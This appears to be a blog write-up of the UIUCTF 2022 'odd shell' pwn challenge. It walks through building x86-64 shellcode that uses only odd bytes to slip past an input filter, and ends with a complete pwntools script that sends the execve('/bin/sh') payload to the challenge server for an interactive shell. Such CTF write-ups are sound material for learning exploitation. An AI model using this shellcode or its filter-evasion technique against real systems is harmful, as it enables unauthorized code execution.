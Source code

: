 ```yaml
---
layout: single
title:  "UIUCTF 2022 - odd shell Writeup"
last_modified_at: 2022-08-02
---
```


Shellcoding but with only odd bytes.

# Intro

Challenge description:

> O ho! You found me! I have a display of oddities available to you!

Challenge files:

- [chal](../assets/posts/2022-07-31-odd-shell-writeup/challenge-files/chal)
- [Dockerfile](../assets/posts/2022-07-31-odd-shell-writeup/challenge-files/Dockerfile)
- [nsjail.cfg](../assets/posts/2022-07-31-odd-shell-writeup/challenge-files/nsjail.cfg)

Security mitigations:

![](../assets/posts/2022-07-31-odd-shell-writeup/images/checksec.png)

# Program analysis

The program is pretty simple:

![](../assets/posts/2022-07-31-odd-shell-writeup/images/IDA.png)

1. A page with the size `0x100` gets allocated at `0x123412340000` in memory. The page can read, write, and execute data.

2. The input is read to the allocated page.

3. If the input ends with a new line character, it will get replaced with a null byte.

4. The for loop iterates every byte of the input, and if the byte is even, it exits. In other words, only odd bytes are allowed in the input.

5. The input is interrupted as instructions.

Ok, so we need to create a shellcode that doesn't contain any odd bytes.

# Shellcoding

The goal is to execute `execve("/bin/sh", NULL, NULL)`

To set up the `execve` syscall, the registers need to be in this state:

- rdi = address of "/bin/sh" string
- rsi = 0x0
- rdx = 0x0
- rax = 0x3b

`0x3b` is the syscall number for `execve`

There is no odd bytes in `syscall` --> `0xf 0x5`

After spending some time reading [X86 Opcode and Instruction Reference](http://ref.x86asm.net/coder64.html) and testing.

I found the following useful instructions with only odd bytes:

- `xor edi, edi` --> `0x31 0xff`
- `inc edi` --> `0xff 0xc7`
- `xchg edi, esi` --> `0x87 0xf7`
- `shl edi` --> `0xd1 0xe7`

While the above instructions are useful, we can only access the lower 4 bytes of the register, we need a way to access the upper 4 bytes of the register.

The problem is the `0x48` or `"H"` byte is preventing me from accessing the full register. For example: `shl rdi` --> `0x48 0xd1 0xe7`

I found that `r9-r15` registers use the `0x49` byte:exclamation:

We can only use `r9, r11, r13, r15`. However, we still have to write "/bin/sh" string byte by byte. ("/bin/sh" in little endian: `68732f6e69622f`)

I used these instructions in the shellcode.

Clear register: `xor r11, r11`

Exchange value between the two registers: `xchg r11, rdi`

Write the odd byte to pass the filter, then increment it:

```
add r11, 0x67
inc r11
```

shift everything by 1 byte:

```
.rept 8
shl r11
.endr
```

# Solve script

```python
import pwn

pwn.context.arch = "amd64"
pwn.context.log_level = "info"

gdb_script = """
b *main+215
b *main+269
b *main+349
"""

assembly_shellcode = """
xor r11, r11

// build "/bin/sh" byte by byte in r11
add r11, 0x67
inc r11
.rept 8
shl r11
.endr

add r11, 0x73
.rept 8
shl r11
.endr

add r11, 0x2f
.rept 8
shl r11
.endr

add r11, 0x6d
inc r11
.rept 8
shl r11
.endr

add r11, 0x69
.rept 8
shl r11
.endr

add r11, 0x61
inc r11

.rept 8
shl r11
.endr

add r11, 0x2f

// push "/bin/sh" to stack and set rdi to rsp
push r11
xor r11, r11
add r11, rsp
xchg r11, rdi

// set rsi and rdx to NULL
xor r11, r11
xchg r11, rsi
xor r11, r11
xchg r11, rdx

// set rax to execve syscall num
xor r11, r11
add r11, 0x3b
xchg r11, rax

// execve("/bin/sh", NULL, NULL)
syscall
"""

shellcode = pwn.asm(assembly_shellcode)

for i, b in enumerate(bytearray(shellcode)):
    even = (b & 1)
    assert even, print(f"[error], {i}: {hex(b)}")

HOST, PORT = ("odd-shell.chal.uiuc.tf", 1337)
with pwn.remote(HOST, PORT) as p:
#with pwn.process(["./chal"], env={}) as p:
#with pwn.gdb.debug(["./chal"], gdbscript=gdb_script) as p:
    init = p.recvuntil(b":\n")
    payload = shellcode
    p.sendline(payload)
    p.interactive()
```
